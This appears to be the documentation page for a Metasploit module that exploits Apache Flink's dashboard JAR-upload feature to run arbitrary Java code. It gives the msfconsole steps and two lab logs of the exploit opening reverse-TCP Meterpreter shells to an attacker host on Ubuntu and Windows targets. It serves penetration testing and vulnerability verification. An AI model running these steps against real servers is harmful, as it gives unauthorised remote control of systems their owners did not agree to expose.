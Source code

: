 ## Vulnerable Application

This module uses job functionality in [Apache Flink](https://flink.apache.org)
dashboard web interface to upload and execute a JAR file,
leading to remote execution of arbitrary Java code as the web server user.

This module has been tested successfully on Apache Flink versions:

* 1.9.3 on Ubuntu 18.04.4;
* 1.11.2 on Ubuntu 18.04.4;
* 1.9.3 on Windows 10; and
* 1.11.2 on Windows 10.

## Verification Steps

```sh
wget 'https://archive.apache.org/dist/flink/flink-1.11.2/flink-1.11.2-bin-scala_2.11.tgz'
tar zxvf flink-1.11.2-bin-scala_2.11.tgz
cd flink-1.11.2/
./bin/start-cluster.sh
```

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_flink_jar_upload_exec`
1. `set rhosts <rhost>`
1. `run`

## Scenarios

### Apache Flink version 1.9.3 on Ubuntu 18.04.4

```
msf6 > use exploit/multi/http/apache_flink_jar_upload_exec 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set rhosts 172.16.191.194
rhosts => 172.16.191.194
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > check
[*] 172.16.191.194:8081 - The target appears to be vulnerable. Apache Flink version 1.9.3.
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Apache Flink version 1.9.3.
[*] Uploading JAR payload 'bxAGPHOcppvL.jar' (5309 bytes) ...
[*] Retrieving list of available JAR files ...
[+] Found uploaded JAR file 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar'
[*] Executing JAR payload 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58147 bytes) to 172.16.191.194
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.194:38326) at 2021-02-18 07:19:58 -0500
[*] Removing JAR file 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar' ...

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer    : linux-18-04-04-amd64
OS          : Linux 5.3.0-40-generic (amd64)
Meterpreter : java/linux
meterpreter > 
```

### Apache Flink version 1.11.2 on Windows 10

```
msf6 > use exploit/multi/http/apache_flink_jar_upload_exec 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set rhosts 172.16.191.193
rhosts => 172.16.191.193
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > check
[*] 172.16.191.193:8081 - The target appears to be vulnerable. Apache Flink version 1.11.2.
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Apache Flink version 1.11.2.
[*] Uploading JAR payload 'JhnJgOxev.jar' (5309 bytes) ...
[*] Retrieving list of available JAR files ...
[+] Found uploaded JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar'
[*] Executing JAR payload '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58147 bytes) to 172.16.191.193
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.193:51105) at 2021-02-18 07:18:02 -0500
[*] Removing JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar' ...
[!] Cleanup failed. Could not remove JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar'

meterpreter > getuid
Server username: User
meterpreter > sysinfo
Computer    : WinDev1710Eval
OS          : Windows 10 10.0 (amd64)
Meterpreter : java/windows
meterpreter > 
```

